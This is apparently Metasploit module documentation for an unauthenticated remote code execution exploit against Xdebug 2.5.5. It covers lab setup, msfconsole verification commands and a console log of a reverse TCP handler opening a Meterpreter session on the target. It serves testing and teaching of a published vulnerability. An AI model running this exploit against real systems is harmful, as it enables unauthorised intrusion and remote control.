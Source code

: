 ## Vulnerable Application

[Xdebug](https://xdebug.org/docs-dbgp.php) is an actively-maintained PHP debugging tool that supports remote debugging of server-side PHP code

This module exploits an unauthenticated vulnerability that allows for the upload of a PHP file and subsequent execution to provide a Meterpreter session back.  The module was tested on XDebug version 2.5.5

The vulnerability was discovered by [Ricter Zheng](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface) (WARNING: This link is in Chinese.  [Google Translate version](https://translate.google.com/translate?hl=en&sl=auto&tl=en&u=https%3A%2F%2Fricterz.me%2Fposts%2FXdebug%3A%20A%20Tiny%20Attack%20Surface))


### Setting up XDebug 2.5.5 on xUbuntu 16.04 x64 Desktop

Start with a LAMP server:

```
sudo apt update && sudo apt install -y tasksel
sudo tasksel install lamp-server
```

Now grab XDebug, specifically the version cited by @MinatoTW:
```
wget https://xdebug.org/files/xdebug-2.5.5.tgz
tar xvzf xdebug-2.5.5.tgz 
cd xdebug-2.5.5/
php -i
```

Paste the contents of your `php -i` output into [the XDebug installation wizard](https://xdebug.org/wizard.php), which gave me the following:

```
sudo apt install -y php7.0-dev
phpize && ./configure && make
sudo cp modules/xdebug.so /usr/lib/php/20151012/
```

The final step of the wizard is to configure `php.ini`:

```
sudo -s
cat >> /etc/php/7.0/cli/php.ini <<EOL
zend_extension = /usr/lib/php/20151012/xdebug.so
xdebug.remote_enable = 1
xdebug.remote_handler = dbgp
xdebug.remote_autostart = 0
xdebug.remote_connect_back = 1
xdebug.remote_port = 9000
xdebug.remote_host = 127.0.0.1
xdebug.profiler_enable=0
xdebug.profiler_enable_trigger=1
xdebug.profiler_output_dir="/tmp"`
EOL
exit
```

Now that the PHP CLI environment is configured, repeat the above steps for the Apache2 configuration:

```
sudo -s
cat >> /etc/php/7.0/cli/php.ini <<EOL
zend_extension = /usr/lib/php/20151012/xdebug.so
xdebug.remote_enable = 1
xdebug.remote_handler = dbgp
xdebug.remote_autostart = 0
xdebug.remote_connect_back = 1
xdebug.remote_port = 9000
xdebug.remote_host = 127.0.0.1
xdebug.profiler_enable=0
xdebug.profiler_enable_trigger=1
xdebug.profiler_output_dir="/tmp"`
EOL
exit
```

And restart Apache2 for good measure:
```
sudo service apache2 restart
```

And now test that XDebug is working:
```
php -r 'echo xdebug_time_index();'; echo
```

You should see a fairly small number, in my case `4.6014785766602E-5`, which indicates the number of seconds since the php script started, thus the incredibly small number.


## Verification Steps

- Start `msfconsole`
- `use exploits/unix/http/xdebug_rce`
- `check`
- `set RHOST 192.168.69.2`
- `set LHOST 192.168.69.1`
- `set VERBOSE true` (optional)
- `exploit`

## Scenarios

### XDebug 2.5.5 on Ubuntu 16.04 with Apache2 2.4.18

```
msf5 exploit(unix/http/xdebug_unauth_exec) > check

[*] 192.168.69.2:80 - Request sent
Date: Fri, 27 Apr 2018 21:00:37 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: XDEBUG_SESSION=WIO6hf4Wez; expires=Fri, 27-Apr-2018 22:00:37 GMT; Max-Age=3600; path=/
Content-Length: 16
Content-Type: text/html; charset=UTF-8


[+] 192.168.69.2:80 - Looks like remote server has xdebug enabled

[*] 192.168.69.2:80 The target service is running, but could not be validated.


msf5 exploit(unix/http/xdebug_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.69.1:4444
[*] 192.168.69.2:80 - Waiting for client response.
[*] 192.168.69.2:80 - Receiving response
508<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.0.28-0ubuntu0.16.04.1" protocol_version="1.0" appid="28166" idekey="5Gg6S9au8B"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
[*] 192.168.69.2:80 - Shell might take upto a minute to respond.Please be patient.
[*] 192.168.69.2:80 - Sending payload of size 2098 bytes
[*] Sending stage (37775 bytes) to 192.168.69.2
[*] Meterpreter session 1 opened (192.168.69.1:4444 -> 192.168.69.2:55506) at 2018-04-27 15:57:58 -0500
[+] 192.168.69.2:80 - Deleted /tmp/OLEaK
```
